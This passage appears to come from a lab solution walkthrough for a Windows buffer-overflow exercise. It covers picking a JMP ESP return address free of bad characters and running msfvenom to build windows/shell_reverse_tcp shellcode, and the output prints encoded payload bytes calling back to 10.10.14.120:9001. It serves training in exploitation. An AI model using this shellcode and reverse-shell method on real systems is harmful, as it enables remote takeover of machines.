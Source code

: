 Students will notice that there is no input truncation anymore, indicating that there are no more bad characters. Thus, in total, there are three bad characters that students need to exclude from the shellcode and the return address(es), which are `0x00`, `0x0A`, and `0x0D`. Subsequently, students need to find a `JMP ESP` instruction and write its address at `EIP` (using the `ESP` address method is not possible since the address contains bad characters when the binary crashes). Within `win32bof`, students need to open the `CPU` tab, right-click, and then select `Search for` -> `All Modules` -> `Command`, and search for `JMP ESP`:

![[HTB Solutions/Others/z. images/fbfd26b9d5ce9a02e12826a046e987b0_MD5.jpg]]

![[HTB Solutions/Others/z. images/2ab5405f4e9c8bce11d46b56a5ae7a0e_MD5.jpg]]

Students can use the first address `0x621014E3` as it does not contain any bad characters:

![[HTB Solutions/Others/z. images/2797f27afe7aa929f0b22d343494b40a_MD5.jpg]]

Subsequently, students need to generate shellcode for a reverse shell using `msfvenom`, excluding the bad characters `x00`, `x0A`, and `x0D`:

Code: shell

```shell
msfvenom -p 'windows/shell_reverse_tcp' LHOST=PWNIP LPORT=PWNPO -f 'python' -b '\x00\x0A\x0D'
```

```
┌─[us-academy-1]─[10.10.14.120]─[htb-ac413848@htb-7nr9onhr8m]─[~]
└──╼ [★]$ msfvenom -p 'windows/shell_reverse_tcp' LHOST=10.10.14.120 LPORT=9001 -f 'python' -b '\x00\x0A\x0D'

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1712 bytes
buf =  b""
buf += b"\xba\x64\x7e\xb4\x42\xdb\xc0\xd9\x74\x24\xf4\x58\x29"
buf += b"\xc9\xb1\x52\x31\x50\x12\x83\xc0\x04\x03\x34\x70\x56"
buf += b"\xb7\x48\x64\x14\x38\xb0\x75\x79\xb0\x55\x44\xb9\xa6"
buf += b"\x1e\xf7\x09\xac\x72\xf4\xe2\xe0\x66\x8f\x87\x2c\x89"
buf += b"\x38\x2d\x0b\xa4\xb9\x1e\x6f\xa7\x39\x5d\xbc\x07\x03"
buf += b"\xae\xb1\x46\x44\xd3\x38\x1a\x1d\x9f\xef\x8a\x2a\xd5"
buf += b"\x33\x21\x60\xfb\x33\xd6\x31\xfa\x12\x49\x49\xa5\xb4"
buf += b"\x68\x9e\xdd\xfc\x72\xc3\xd8\xb7\x09\x37\x96\x49\xdb"
buf += b"\x09\x57\xe5\x22\xa6\xaa\xf7\x63\x01\x55\x82\x9d\x71"
buf += b"\xe8\x95\x5a\x0b\x36\x13\x78\xab\xbd\x83\xa4\x4d\x11"
buf += b"\x55\x2f\x41\xde\x11\x77\x46\xe1\xf6\x0c\x72\x6a\xf9"
buf += b"\xc2\xf2\x28\xde\xc6\x5f\xea\x7f\x5f\x3a\x5d\x7f\xbf"
buf += b"\xe5\x02\x25\xb4\x08\x56\x54\x97\x44\x9b\x55\x27\x95"
buf += b"\xb3\xee\x54\xa7\x1c\x45\xf2\x8b\xd5\x43\x05\xeb\xcf"
buf += b"\x34\x99\x12\xf0\x44\xb0\xd0\xa4\x14\xaa\xf1\xc4\xfe"
buf += b"\x2a\xfd\x10\x50\x7a\x51\xcb\x11\x2a\x11\xbb\xf9\x20"
buf += b"\x9e\xe4\x1a\x4b\x74\x8d\xb1\xb6\x1f\xb8\x4f\xb6\xa7"
buf += b"\xd4\x4d\xc6\x74\x0c\xdb\x20\x10\x5e\x8d\xfb\x8d\xc7"
buf += b"\x94\x77\x2f\x07\x03\xf2\x6f\x83\xa0\x03\x21\x64\xcc"
buf += b"\x17\xd6\x84\x9b\x45\x71\x9a\x31\xe1\x1d\x09\xde\xf1"
buf += b"\x68\x32\x49\xa6\x3d\x84\x80\x22\xd0\xbf\x3a\x50\x29"

